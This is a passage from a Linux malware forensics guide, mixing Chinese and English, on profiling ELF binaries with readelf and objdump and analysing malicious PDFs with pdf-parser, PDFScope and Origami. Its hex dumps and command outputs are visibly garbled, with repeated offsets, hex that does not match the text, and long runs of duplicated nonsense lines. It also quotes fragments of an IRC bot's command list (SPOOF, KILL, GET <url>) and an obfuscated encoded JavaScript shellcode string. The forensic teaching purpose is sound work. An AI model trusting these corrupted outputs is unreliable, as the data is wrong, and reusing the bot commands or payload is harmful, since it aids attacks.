0x0048be0 207f01a7 68720437 73736973 is that
0x0048be0 3b50e660 69444e65 73747374 73747374 something like
0x0048be0 000023a0 000023a0 342e9362 21032a6 16.9.0..
0x0048be0 00000000 6c26e51a 732053a7 20454394 NOTICE : :Up
0x0048be0 0a72d520 67f6e6f0 732053a7 67f4025 to resolve..
0x0048be0 00000000 732053a7 20454394 69444e65 NOTICE : :UDP
0x0048be0 00000000 00000000 00000000 00000000
0x0048be0 3c2055a3 732053a7 20454394 69444e65 :target =
0x0048be0 3c2055a3 73747374 67725174 67725174 <port>
0x0048be0 732052d5 43a9f44 6e00a26 73265367 NOTICE : :TSUNA
0x0048be0 69444e65 69444e65 616062d4 616062d4 Packing ..
0x0048be0 00000000 00000000 00000000 00000000
0x0048be0 00000000 00000000 00000000 00000000
0x0048be0 0a51d000 00000000 00000000 00000000
0x0048be0 0a51d000 00000000 00000000 00000000
0x0048be0 0a51d000 3c20e4a7 732053a7 20454394
0x0048be0 3c2055a3 73747374 67725174 67725174 <port>
0x0048be0 732052d5 43a9f44 6e00a26 73265367 NOTICE : :TSUNA
0x0048be0 69444e65 69444e65 616062d4 616062d4 Is Retry
0x0048be0 637653d3 2032b467 67f62171 6772c1a4 target =
0x0048be0 0a51d000 732053a7 20454394 69444e65 NOTICE : :TSUNA
0x0048be0 69444e65 69444e65 69444e65 69444e65 knowing..n.. is
0x0048be0 00000000 00000000 00000000 00000000
0x0048be0 61e6f063 57347374 73747374 6380f2b6 from
0x0048be0 00000000 00000000 0000a273 0000a273.
0x0048be0 00000000 00000000 00000000 00000000
0x0048be0 69444e65 69444e65 69444e65 69444e65 NOTICE : :UNKN
0x0048be0 637653d3 2032b467 67f62171 6772c1a4 target = <
0x0048be0 0a51d000 732053a7 20454394 69444e65 NOTICE : :UP
0x0048be0 4e00a2e6 736e9967 6f6e6b6 69444e65 knowing..n.. is
0x0048be0 3c20e4a7 732053a7 20454394 69444e65 :MOVE = <
0x0048be0 3c2055a3 73747374 67725174 67725174 server>
0x0048be0 20202020 20202020 20202020 20202020
0x0048be0 0a73d2d0 732053a7 20454394 6380f2b6
0x0048be0 00647064 64657274 74a4727
```

FIGURE 5-4.Showing the contents of `.rodata` section with readelf

## 第 5 章 识别与过滤

- `NOTE != SERVE <server>` 更改客户端的颈部
- `NOTE != GETS_OFFS =` 当前字符串偏移量，
- `NOTE != SPOOF <subnet> =` 欺骗目标子集。
- `NOTE != DISABLE` 禁用从此客户端发送的所有包，
- `NOTE != ENABLE` 允许所有包，
- `NOTE != KILL` 杀死所有客户端 ..
- `NOTE != GET <url>` 从网络下载且已过时 ..
- `NOTE != VERSION` 请求客户端版本 ..

在本节中可以观察到的另一个有价值的信息是对“Linux 2.2.16-3, 1386”的引用。对此信息进行基础查询可能会发现该程序是一个 Red Hat 6 系统。这些信息可能

# LINUX 系统主要取证指南

可能进一步影响攻击者以及攻击者的系统，或者提供对敌意程序本质的洞察。在本章前面的部分，我们讨论了检查可疑程序。在这个过程中，数字取证人员需要提取每个调试段以进行更细粒度的分析，并使用 hexump 方法展示如何操作。例如，数字取证人员想要检查目标执行文件第 28 段的调试行：图 5.7。

```
~/home/malware/Malware Repository --dump=28 sysfile Hex dump of debug line:

| Offset | Data | Description |
| :--- | :--- | :--- |
| 00000000 | 05ef2b00 003c00c7 | |
| 00000010 | 64377922 2f2e0000 | /y.. (part) |
| 00000020 | 73d47922 2f2e537 | /lib/libc.so |
| 00000030 | 66f0f672 2f2e537 | /usr/bin |
| 00000040 | d4a8b369 2f2e626 | /lib/ld-linux.so.2 |
| 00000050 | 79f27f62 2f2e3f2 | /static/linux-linux.1 |
| 00000060 | f3a9e226 2e2a6e7 | /include/ |
| 00000070 | 9794a076 000004a5 | init.c |
| 00000080 | 9f2e8e61 7f3b6b7 | ps.wehh.h |
| 00000090 | 6f6f6f66 6e6e6e6 | conv_f.h |
| 000000a0 | 05b8e5e6 7f6e6e6 | convv. |
| 000000b0 | 01010101 00000000 | |
| 000000c0 | 69c29c66 73f2f973 | /usr/src/bin |
| 000000d0 | a5f4a5a4 32d2f3d2 | /lib/ld-linux.so.2 |
| 000000f0 | d1d2d2d2 23e2d3d2 | -2.3-2.2 |
| 00000100 | 33c1a2e1 220938a4 | /.. |
| 00000110 | 73f6a973 76f5a9e6 | 3186-linux/cu.c |
```


| 00000120 | 4e6b4e22 0132b198 | /w_.. |
| 00000130 | 00000010 0132b198 | -w |
| 000000140 | 00000000 00000000 | -L.... |
| 00000150 | 05c25cc7 00c44070 | -W |
| 00000160 | 01170000 010002a3 | -.,.. |
| 00000170 | 01010100 010101a0 | -e. |
| 00000180 | 75f2f5f3 76f2f5f0 | /usr/src/bu |
| 00000190 | a22368b3 9d2333a | 23943-1386/ |
| 000001a0 | 05f4f5f4 72f2f5f4 | ELF-ld-linux.so |
| 000001b0 | 010001c0 62f2f173 | build-20030227 |
| 000001c0 | 0575f573 78f2f576 | -1386-linux/cu |
| 000001d0 | a2020200 05f4f5f4 | -z |
| 000001e0 | 01000102 01a30112 | a. |
| 000001f0 | 00000200 | |

```
图 5.7—提取 .debug line
```

另一个可以为攻击者系统或编译恶意执行文件的系统提供上下文的段是 `.comment`，它包含了版本信息。通过转储此段，数字取证人员可以查看对 Red Hat Linux 3.2.2-5 (GCC) 3.2.203022 的引用，这是关于 Linux 操作系统发行版的非常通用的信息，图 5.7。

## 第 5 章 识别与剖析

```
lab@Malware~/home/malware Repository$ readelf --hex-dump=23 sysfile Header of 'comment':
```

| Offset | Data | Description |
| :--- | :--- | :--- |
| 00000000 | 2e2e2320 202995a4 | (GCC) (GNU) 2.3 |
| 00000010 | 64e55528 28d2533 | Hat Linux 2.2 |
| 00000020 | 28d25332 27c07461 | Hat Linux 2.2 |
| 00000030 | 32030295 4e47b824 | (GCC) (GNU) 2.3 |
| 00000040 | 35320229 25030222 | (25d25332) Hat Linux 2.2 |
| 00000050 | 35320360 78d75569 | (GCC) (GNU) 2.3 |
| 00000060 | 55a44728 203a0343 | 35320329-2) (Red Linux 2.2) |
| 00000070 | 28d25332 28d25332 | (Red Linux 2.2) |
| 00000080 | 20887856 75e6f5a6 | (Red Linux 2.2) |
| 00000090 | 30a30310 33d30330 | (Red Linux 2.2) |
| 000000a0 | 66e96420 74164820 | (Red Linux 2.2) |
| 000000b0 | 32030230 32e22323 | (GCC) (GNU) 2.3 |
| 000000c0 | 65a44100 28d25332 | (Red Linux 2.2) |
| 000001d0 | 00f00900 | |

# 334

```
lab@MalwareLab:~home/malwarelab/Malware Repository$ readelf --dump=33 myfile
```

`.strtab` 节的ump部

```
00000000 0036e56c 696c0a4 6661d6c4 66633c00 .command line
00000010 0032f4a6 697c62f5 727375f2 /usr/src/build/2
00000020 64a8a9b8 62f1a6f0 33b93932 21b8-im1-lib
00000030 0030a32a 322d322e 322d3236 696c07f2 /libc-2.3.2-200
00000040 00250202 72050207 72050207 72050207 /ld-linux.so.2
00000050 00060587 66e6e6e6 67b7f7f3 6729c2id-linux.conf
00000060 0026e9d2 696209e2 6974f956 67639c2d /built-in.a
00000070 0012b2b2 32f5f2f5 32f5f2f5 32f5f2f5 /libc.so.3
00000080 0038b3b8 332d33d3 332d33a7 64c9915s22943-i386
00000090 00c9a0a7 27323237 37323233 322d322e.-20033224-ld-linux.so
000000a0 0005b736 7785796e 696c07f6 3339692a4 /abi-elf.nt
000000b0 0064c975 62f1a6f0 727375f2 727375f2 /usr/src/build
000000c0 0045b5b5 72f3f2f7 73f207 62f4a4f6/ld-linux.so.2
000000d0 0022a3a2 322d323e 322d3236 44c4a995/ILD-x86
000000e0 0032a3a2 322d3236 696c07f2 44c4a995/GLIBC-x86
000000f0 00110070 7432d537 778579e6 60263d18-no-elf
00000110 005975d2 32f5f2f5 727375f2 727375f2 005326e9 /usr/src/build
00000120 0032f4a6 32f5f2f5 32f5f2f5 322d322e.-188b
00000130 0032a3a2 322d322e 696c07f2 44c4a995/ILD-x86
00000140 00160010 64f775b2 67747620 338619-i386-linux
00000150 0031d6e9 54f5f5f5 64f666822a53311-hf.init
00000160 0032a3a2 322d322e 696c07f2 44c4a995/global_start.c
00000170 0059a1d3 54f5f5f5 54f5f5f5 6764a556/lettered.1
00000180 0032a3a2 322d322e 696c07f2 44c4a995/crt.c
00000190 0056a5a5 54f5f5f5 56f5ff55 6764a556/DT_HASH
000001a0 008142d5 41a54a8 44f5aa5 5349a54/DT_RELA
000001b0 00d4e6f3 32a6a26 69f6c7e6 5349a54/DT_NEEDED
000001c0 0070d4e6 0030d2e7 00f5f5f5 5349a54/DT_LIST_conf
000001d0 0061e0c5 67f5f5f5 64f7ff7 5349a54/DT_DYNAMIC
000001e0 0025f4a7 54f5f5f5 54f5f5f5 00f505f5 /usr/src/bin
000001f0 0025f4a7 54f5f5f5 54f5f5f5 64c6b6b8/global_core.c
00000200 0022f4a7 54f5f5f5 54f5f5f5 00f505f5/_DT_FRAME
00000210 002505f5 54f5f5f5 54f5f5f5 64c6b6b8/J_entry
00000220 0032a3a2 322d322e 696c07f2 44c4a995/ILD-x86
00000230 0062d3f7 732d37f2 77387571 0086f571 /usr/src/bin
00000240 0032a3a2 322d322e 322d3236 322d322e.-188b
00000250 0031d290 73f5f7f3 62d3236 66383b36-linux/x86/gnu
00000260 002a0028 740065e7 661b0053 226e7472/rtn.s_kaliten.c
00000270 000002c0 000002c0 6474a7a4 62e5b5b5/libc.so.1.1
00000280 00c47440 70736964 00667f76 62b6e675 unknownatol@gl
00000290 002d03d7 70737964 00303432 53f42349/IBC_2.0.display
000002a0 0030d2e5 32f5f2f4 4404c046 68f7e4e6 notohl@GLIBC_2.0
```

Figure 5-7 Identifying the structure of a `.strtab` object with `readelf`

```
lab@MalwareLab:~home/malwarelab/Malware Repository$ objdump -f myfile
```

```
myfile:
file elf-i386
```

```
lab@MalwareLab:~home/malwarelab/Malware Repository$ objdump -f myfile
```

```
myfile:
architecture: i386, flags 0x0000038
EXEC P, HASMS, D
start address 0x00480d4
```

# Chapter 5 Identification and Profiling

- Unlike `readelf`, `objdump` provides the digital investigator with a "private headers" option, which dumps out the Program Header Table, `.dynamic` section, and version information into single output (Figure 5.7).

```
lab@Malware:~/home/malware/Malware Repository$ objdump -p sysfile
sysfile: file elf32-i386
```


```
Program Header:
PHDR 0x00000034 vaddr 0x08040034 paddr 0x08040034 align 2**2
files 0x00000c0 memz 0x00000000 r-x
INTERP 0x00000fa4 vaddr 0x080400f4 paddr 0x080400f4 align 2**2
files 0x00000014 memz 0x00000000 r-x
LOAD 0x00000000 vaddr 0x08040000 paddr 0x08040000 align 2**2
files 0x00000438 memz 0x000003f8 r--
LOAD 0x00000000 vaddr 0x0804d000 paddr 0x0804d000 align 2**2
files 0x000002e4 memz 0x00000970 rw-
DYNAMIC 0x00000520 vaddr 0x0804d120 paddr 0x0804d120 align 2**2
files 0x00000c0 memz 0x00000000 rw-
NOTE 0x00000108 vaddr 0x08048108 paddr 0x08048108 align 2**2
files 0x00000020 memz 0x00000020 r--
```

Dynamic Section:
NEEDED libibc.so.6:
INIT 0x08048e4c
INT 0x0804e64
HASH 0x0804618
STRTAB 0x0804f8
SYMTAB 0x0804a2
STSIZ 0x1b8
SYMENT 0x0
DEBUG 0x0
PLTO 0x0804dfc
PLRELS 0x1b0
JMPREL 0x0804b9c
REL 0x08048894
RELZ 0x8
RELENT 0x0
VERNEED 0x08048664
VERDENUM 0x1
VERSYM 0x08047f0

Version References:
required from libibc.so.6:
0x0d696911 0x00 GLIBC_2.1
0x0d696910 0x02 GLIBC_2.0

> FIGURE 5.79—Using the "private headers" switch in objdump to display headers

- Figure 5.80 provides a list of common objdump commands to parse the contents of an ELF specimen.

# MALWARE FORENSICS FIELD GUIDE FOR LINUX SYSTEMS

| Objdump Command Option | Output |
| --- | --- |
| -h | Section Headers |
| -x | All Headers |
| -g | Debug information |
| -t | Symbols |
| -T | Dynamic Symbols |
| -G | Stabs |
| -I | Line numbers |
| -S | source |
| -f | Relocation sections |
| -R | Dynamic relocation sections |
| -s | Full Contents |
| -w | Dwarf information |

FIGURE 5-80-Common objdump commands

# PROFILING SUSPECT DOCUMENT FILES

During the course of profiling a suspect file, the digital investigator may determine that a file specimen is not an executable file, but rather, a document file, requiring distinct examination tools and techniques. While malicious documents have traditionally targeted Windows systems, recent malware, such as Trojan-Dropper:OSX/Revir.A, broke this paradigm and targeted Macintosh OS systems—revealing that attackers are broadening the scope of malicious document files as an effective attack vector. At the time of writing there are no malicious document malware variants targeting Linux; as Linux continues to gain increasing popularity for desktop computing, it is likely that malicious document malware will be developed to target this platform as well. As a result, we recommend when responding to a malware incident involving a malicious document file, treat it like other malicious code “crime scenes” and do not make presumptions about the nature of the attack or suspect until your investigation is complete. Further, examining a suspect document file on a Linux system can be effectively and efficiently conducted to determine the nature of the threat, as described below.

Malicious Document Files have become a burgeoning threat and increasingly popular vector of attack by malicious code adversaries.

Malicious documents crafted by attackers to exploit vulnerabilities in document processing and rendering software such as Adobe (Reader/Acrobat) and Microsoft Office (Word, PowerPoint, Excel) are becoming increasingly common.

# 分析 ADOBE 便携式文档格式 (PDF) 文件

☑ 深入理解 PDF 文件结构有助于有效分析恶意 PDF 文件。

# PDF 文件格式

+ PDF 文档是一个由一系列元素组成的数据结构。⁷¹：
* **文件头 (File Header)**：PDF 文件的第一行包含一个文件头，其中包含五个字符；前三个字符始终为“PDF”，后两个字符定义版本号，例如“%PDF-1.6”（PDF 版本范围从 1.0 到 1.7）。
* **正文 (Body)**：PDF 正文包含一组代表文档内容的对象。
* **对象 (Objects)**：PDF 文件正文中的对象代表字体、页面和图像等内容。
* 对象可以引用其他对象。这些*间接对象*（indirect objects）使用一组统称为*对象标识符*（object identifier）的唯一标识符进行标记：(1) 对象编号和 (2) *代数代*（generation number）。
* 对象标识符之后是间接对象的*定义*（definition），它包含在“obj”和“endobj”关键词之间。例如图 5.81 所示。

```
5 0 obj

<<

/Type /Outlines

/Count 0

endobj
```
**图 5.81**–对象定义

+ 间接对象可以通过文件中的其他位置通过*间接引用*（indirect reference）或“引用”（references）进行引用，包含对象标识符和关键词“R”。例如：`11 0 R`。

⁷¹ 有关便携式文档格式的详细信息，请参见《Adobe 便携式文档文件规范》（国际标准 ISO 32000-1:2008），访问 http://www.adobe.com/devnet/pdf/pdf_reference.html。

# 第 5 章 | 文件识别与分析

+ 包含大量数据（如图像、音频、字体、电影、页面描述和 JavaScript）的对象被表示为流对象或“流”（streams）。⁷² 流通过“stream”和“endstream”关键词来识别，这两个词之间的任何数据都表现为流。虽然流的长度可能是无限的，但流通常会被压缩以节省空间，这增加了分析的难度。应该仔细关注流分析，因为攻击者经常利用其大容量，在对象内部的流中嵌入恶意脚本。

+ **交叉引用 (XREF) 表**：XREF 表作为文件索引，包含每个对象的条目。该条目包含每个对象在文件正文中的字节偏移量。XREF 表是 PDF 文件中唯一固定格式的元素，能够随机访问文件中的条目。⁷³

+ **尾部 (Trailer)**：PDF 文件的末包含一个*尾部*（trailer），它标识了 XREF 表的位置并包含文件正文中的特殊对象（图 5.82）。⁷⁴



⁷² 便携式文档格式规范（国际标准 ISO 32000-1:2008），第 7.3.8.1节。

⁷³ 便携式文档格式规范（国际标准 ISO 32000-1:2008），第 7.5.4节，注释 1。

⁷⁴ 便携式文档格式规范（国际标准 ISO 32000-1:2008），第 7.5.5节。

除了 PDF 的结构性元素外，还有供调查考虑的嵌入实体，如字典、动作类型关键词和图表描述的可识别压缩方案，⁷⁷⁵，

| 关键词 | 相关性 |
|---|---|
| /AA | 附加动作字典的标志，定义了为了响应影响文档的触发事件而发生的动作。 |
| /Acroform | 交互式表单字典；在打开文档时将发生自动动作的标志。 |
| /OpenAction | 指定将显示的目标位置或在打开文档时将发生的动作的值。 |
| /URI | 表示将解析 URI（统一资源标识符）的标志，例如包含额外恶意文件的远程资源。 |
| /Encrypt | 表示已对文档中的字符串和流内容进行加密以保护其内容的标志。 |
| /Named | 表示将执行预定义动作的标志。 |
| /JavaScript | 表示 PDF 包含 JavaScript 的标志。 |
| FlatDecode | 使用 zlib/deflate 压缩方法编码的压缩方案标志。 |
| /BIG2Decode | 使用 JBIG2 压缩方法编码的压缩方案标志。 |
| /S | 表示 PDF 包含 JavaScript 的标志（注：此处原文重复）。 |
| /Embedded-Files | 嵌入文件流的标志。 |
| /Launch | 表示将启动应用程序或打开文件的标志。 |
| /Objstem | PDF 文档正文内部的对象流的标志。 |
| /Pages | 一个将调用交互式表单的指示。 |
| /RichMedia | 表示 PDF 包含富媒体（如视频、声音或 Flash 文档）的标志。 |

> ⁷⁵ 更多细节可以在 PDF 规范文档中找到：PDF 文格式规范（国际标准 ISO 32000-1:2008），国际标准化组织 (ISO)，2008；Adobe ISO 32000-1:2008 扩展，级别 5；Adobe 对 ISO 32000-1:2008 的补充。

# PDF 分析：CLI 工具

可以采取以下步骤分析 PDF：

- **分检**：使用 `pdfid` 等工具快速收集元数据并识别异常。
- **提取**：使用 `pdf-parser.py` 提取特定的对象或流进行分析。
- **分析**：检查提取出的内容，寻找恶意脚本、隐藏文件或可疑的结构元素。

## 第 5 章 | 文件识别与特征分析

| 命令开关 | 目的 |
|---|---|
| --filter | 将流对象通过过滤器（仅支持 FlatDecode, HexDecode 和 ASCII8Decode） |
| --object=<object> | 要选择的间接对象 ID（与版本无关） |
| --reference=<reference> | 被引用的间接对象 ID（与版本无关） |
| --elements=<elements> | 选择的元素类型 (extsi) |
| --raw | 数据和过滤器的原始输出 |
| --type=<type> | 要选择的间接对象类型 |
| --verbose | 显示异常的 PDF 元素 |
| --extract=<file to extract> | 要提取的文件名 |
| --hash | 显示对象的哈希值 |
| --dump | 转储流未经过过滤的内容 |
| --disarm | 对目标 PDF 文件解除武装 |

- `pdf-parser.py` 的替代方案是 Origami 框架中的 `pdf-parser.rb` 脚本。
- 使用 `pdf.py` 收集的信息作为引导，使用 `pdf-parser.py` 检查可疑文件。例如，图 5.83 中的 `pdf.py` 结果显示可疑文件中存在 JavaScript，可以使用 `pdf-parser.py` 深入调查该对象，例如定位并提取此脚本。

## 定位可疑脚本和 shellcode

- 若要在可疑文件中定位 JavaScript 关键字，请使用 `--search` 开关和字符串 `javascript`，如图 5.85 所示。查询结果将识别出文件中相关的对象和引用。

```
labMalwareLab:home/malware/Malware Repository$ pdf-parser.py --search javascript

obj 11

Type:Action

Referencing: 12 0

<< /Type /Action /S JavaScript /JS 12 0 R >>
```

图 5.85-- 使用 pdf-parser.py 在可疑文件中搜索嵌入的 JavaScript。

可以使用 `--object=object 编号` 开关进一步检查相关对象。在此例中，输出显示该对象包含一个经过压缩的流（图 5.86）。

```
labMalwareLab:/home/malwarelab/Malware Repository$ pdf-parser.py --object=12

Beneficial-medical-programs.pdf

obj 12

Type:

Referencing:

Contains stream

<

/Length 4035

/Filter /FlatDecode

/DL 0000000000

/Length: 000000000000000000000000
>>
```

图 5.86- 使用 pdf-parser.py 解析特定对象。

## 解压缩流对象并揭示秘密

- 使用 `--filter` 和 `--raw` 开关解压缩流对象的内容并显示脚本，如图 5.87 所示。

## 提取 JavaScript 以进行进一步分析

- 可以将输出重定向到新文件（如 `output.js`）来提取可疑的 JavaScript，如图 5.88 所示。
可用于提取 JavaScript 的其他方法：
- 使用 `jsonpack-n` 脚本 `pdf.py.78` 处理目标文件
- 使用 Origami 框架 `extract-js.rb.79` 处理目标文件

## 检查提取的 JavaScript

- 从 PDF 样本中提取的 JavaScript 可以通过 JavaScript 引擎进行检查，例如 Mozilla 基金会的 SpiderMonkey。80
Didier Stevens 适配了针对恶意软件分析的 SpiderMonkey 修改版本，81，

78 了解更多关于 jsonpack-n 的信息，请访问 https://code.google.com/p/jsonpack-n/
79 了解更多关于 Origami 的信息，请访问 https://code.google.com/p/origami-pdf/
80 了解更多关于 SpiderMonkey 的信息，请访问 http://www.mozilla.org/js/spidermonkey/
81 了解更多关于 Didier Stevens 版本的 SpiderMonkey，请访问 http://blog.didier-stevens.com/programs/spidermonkey/

## 第 5 章 文件识别与特征分析

```
lab@MalwareLab:~/malwareLab/Malware Repository$ pdf-parser.py --object=12 --raw --filter-medical-programs.pdf
```

```
obj 12 0

Type:

Referencing:

Contains streams

<</46856e677874 4035/46lateDate /DL 0000000000/Length 000000000000000000000000>

<</Length 4035

/Filter /Date

/DL 0000000000

/Length 000000000000000000000000>
```


图 5.7- 使用 `pdf-parser.py` 解压缩可疑对象。

- 攻击者利用嵌入了 shellcode（通常在代码中经过混淆）的 PDF 文件来利用 Adobe Reader 和 Acrobat 的漏洞。82

关于此类攻击的示例，请使用 `pdf reader` 提取并分析 shellcode，http://www.helpblog.com/?p=10。

## LINUX 系统恶意软件取证指南

*0c3ku012u85ff77c0debub85ffeku5off*` 

`*f8680000ff001457*bb812c000091*`

`*f8680000ff001457*bb812c000091*`

`*f8680000ff001457*0812000000000000000000000001*`

`*f88800000001455*0812c000091*`

`*f8680000ff001457*bb812c000091*`

`*f8680000ff001457*bb812c000091*`

`*f8680000ff001457*bb812c000091*`

`*f8680000ff001457*bb812c000091*`

`*f8680000ff001457*bb812c000091*`

`*f8680000ff001457*bb812c000091*`

`*f8680000ff001457*bb812c000091*`

`*f8680000ff001457*bb812c000091*`

`*f8680000ff001457*bb812c000091*`

`*f8680000ff001457*bb812c000091*`

`*f8680000ff001457*bb812c000091*`

`*f8680000ff001457*bb812c000091*`

`*f8680000ff001457*bb812c000091*`

`*f8680000ff001457*bb812c000091*`

`*f8680000ff001457*bb812c000091*`

`*f8680000ff001457*bb812c000091*`

`*f8680000ff001457*bb812c000091*`

`*f8680000ff001457*bb812c000091*`

`*f8680000ff001457*bb812c000091*`

`*f8680000ff001457*bb812c000091*`

`*f8680000ff001457*bb812c000091*`

`*f8680000ff001457*bb812c000091*`

`*f8680000ff001457*bb812c000091*`

`*f8680000ff001457*bb812c000091*`

`*f8680000ff001457*bb812c000091*`

`*f8680000ff001457*bb812c000091*`

`*f8680000ff001457*bb812c000091*`

`*f8680000ff001457*bb812c000091*`

`*f8680000ff001457*bb812c000091*`

`*f8680000ff001457*bb812c000091*`

```
lab@MalwareLab:/home/malwarelab/Malware Repository$ pdf-parser.py --object=12 --raw
```

FIGURE 5.8- 使用 `pdf.py` 提取 JavaScript。

## 第 5 章 文件识别与特征分析

- 经常，shellcode 通过堆栈注入内存，85
- 可以将输出重定向到新文件（如 `output.js`）来提取可疑的 JavaScript，如图 5.88 所示。
- 从 JavaScript 中拷贝 shellcode 后，将其编译为二进制格式。86
- 使用 `inlinegg` 将 shellcode 编译为可执行文件，87

## 可考虑的其他工具

CLI PDF 分析工具
Origami—https://www.google.com/p/origami/;
Open Analysis Framework (OPAF)—http://esec-lab.com/
PDF Miner—https://www.unixuser.org/euke/pdfminer/index.html
PDF Kit—https://www.pdflabs.com/pdt/
PDF XRAY/PDF XRAY Lite—https://github.com/9/pdfxray
Peepdf—http://code.google.com/p/peepdf
Malpdf—http://blog.9plus.com/releasing-malpdf
更多讨论和比较可以在本章末的工具箱以及配套网站 http://www.malwarefield-guide.com/LinuxChapter5.html 找到。

## PDF 分析流程：GUI 工具

- 可以使用基于 GUI 的工具来解析和分析 PDF 文件，以收集额外数据和上下文。Linux 中有三个主要的工具用于此过程：Origami Walker、PDFScope 和 PDF Dissector。尽管在本文写作时，PDF Dissector 已不再出售（但仍由 Zymantics 支持），它是一项强大的工具，许多数字调查员在停止销售前已将其加入工具箱，本节将对其进行介绍。

### 扫描恶意指标并检查文件结构和内容

- 基于上一节提到的 David Steven 的工具 `pdfid.py` 和 `pdf-parser.py`，PDFScope 是一个基于 GUI 的工具，它通过简洁且直观的用户界面为数字调查员提供了这些工具的功能，能够对恶意指标进行敏捷的分拣。
- 一旦将目标样本加载到工具中，就可以通过界面顶部的相应标签页探索现有的文件结构和动作类型。如图 5.89 所示，点击“JS”标签页可以轻松查看发现的 JavaScript 类型。



图 5.89–PDFScope

- 使用 Object（对象）菜单（图 5.90），数字调查员可以通过导航或保存感兴趣的对象来进一步研究目标文件的结构。
- Origami 是一个用 Ruby 编写的工具框架，用于解析和分析 PDF 文档，并为了研究目的生成恶意 PDF 文件。该框架包含一系列 Ruby 解析器——或核心脚本、脚本和 Walker（一个 GTK GUI 界面），用于检查可疑 PDF 文件，如图 5.91 所示。🛠
- 使用 Origami Walker，数字调查员可以使用层级结构快速检查目标文件样本的结构和内容概览

## PDF 查看

`/home/pdf-fparser-2`

保存 [`pdf-fparser-2` <obj>] 文件

# Object 12

```
var WO0ZFajSij = "%u0061%u0072%u0061%u0079%u002f%u0074%u0065%u0074%u0065%u0064%u0064%u0065%u0063%u0074%u006f%u0022%u0074%u0065%u0064%u006e%u0074%u0065%u0063%u0074%u006f%u0022%u0074%u0065%u0064%u006e%u0074%u0065%u0063%u0074%u006f%u0022%u0074%u0065%u0064%u006e%u0074%u0065%u0063%u0074%u006f%u0022%u0074%u0065%u0064%u006e%u0074%u0065%u0063%u0074%u006f%u0022%u0074%u0065%u0064%u006e%u0074%u0065%u0063%u0074%u006f%u0022%u0074%u0065%u0064%u006e%u0074%u0065%u0063%u0074%u006f%u0022%u0074%u0065%u0064%u006e%u0074%u0065%u0063%u0074%u006f%u0022%u0074%u0065%u0064%u006e%u0074%u0065%u0063%u0074%u006f%u0022%u0074%u0065%u0064%u006e%u0074%u0065%u0063%u0074%u006f%u0022"
```

# 输入文本

输入对象数量，返回对象


图 5.90—使用 PDFScope Object 检查感兴趣的对象

## PDF Walker

文件文档

`/home/malwarelab/Malware Repository/Benefic...`

头部 (v1.5)

修订版本 1

正文

目录

AcroForm

OpenAction

页面

- 页面树
- 数组
- 字典
- 页面
- 字典
- 页部
- 流
- 描述符
- 流
- 动作
- 字典
- 流
- 尾部
- 字典



```
0 obj

<<

/AcroForm 1 0 R

/OpenAction 1 0 R

/Pages 0 0

>>

/Type /Catalog


查看 `:/home/malwarelab/Malware Repository/Beneficial-medical-programs.pdf`

在检查 PDF 代码、动作项和流内容时，分别在右侧顶部和底部的视图中进行，而该文件在左侧查看面板中是可展开的（如图 5.91 所示）。

图 5.91—Origami Walker

### 识别并提取恶意伪迹、脚本和代码

- `PDF Dissector` 提供了一个直观且功能丰富的环境，允许数字调查员快速识别 PDF 中的元素并导航文件结构。有关 `PDF Dissector` 的更多信息，请访问 `http://www.zymantics.com/dissector.html`。



图 5.92—使用 Origami Walker 提取编码的流

- 可以通过文本搜索功能查询异常字符串，并通过多功能查看面板识别主体对象，如图 5.93 所示。



图 5.93—使用 PDF Dissector 导航可疑文件的结构

- 可疑对象的内容可以使用 `PDF Dissector` 的树功能进一步检查。选择一个对象后，内容将现在独立的查看面板中。

压缩流会自动通过 `FlateDecode` 进行过滤并解码——其内容可以在内置的十六进制查看器中查看。

可疑流的内容（原始或解码后的）可以保存到新文件中。

`PDF Dissector` 提供了多种工具来解码、执行和分析 JavaScript，以及提取 shellcode。
- 识别出的 JavaScript 可以在内置的 JavaScript 解释器中执行（如图 5.94 所示）。

